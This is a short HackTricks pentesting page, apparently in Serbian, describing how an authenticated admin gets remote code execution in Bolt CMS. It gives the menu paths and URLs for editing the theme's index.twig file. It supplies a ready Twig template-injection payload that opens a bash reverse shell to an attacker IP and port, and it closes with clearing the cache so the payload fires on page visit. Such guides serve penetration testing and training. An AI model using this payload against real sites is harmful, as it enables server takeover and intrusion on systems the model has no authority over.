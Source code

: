 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Nakon prijave kao admin (idite na /bot da pristupite login promptu), možete dobiti RCE u Bolt CMS:

- Izaberite `Configuration` -> `View Configuration` -> `Main Configuration` ili idite na URL putanju `/bolt/file-edit/config?file=/bolt/config.yaml`
- Proverite vrednost teme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Izaberite `File management` -> `View & edit templates`
- Izaberite osnovnu temu pronađenu u prethodnom (`base-2021` u ovom slučaju) koraku i izaberite `index.twig`
- U mom slučaju ovo je na URL putanji /bolt/file-edit/themes?file=/base-2021/index.twig
- Postavite svoj payload u ovu datoteku putem [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), kao: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- I sačuvajte promene

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Očistite keš u `Maintenance` -> `Clear the cache`
- Ponovo pristupite stranici kao običan korisnik, i payload bi trebao biti izvršen

{{#include ../../banners/hacktricks-training.md}}
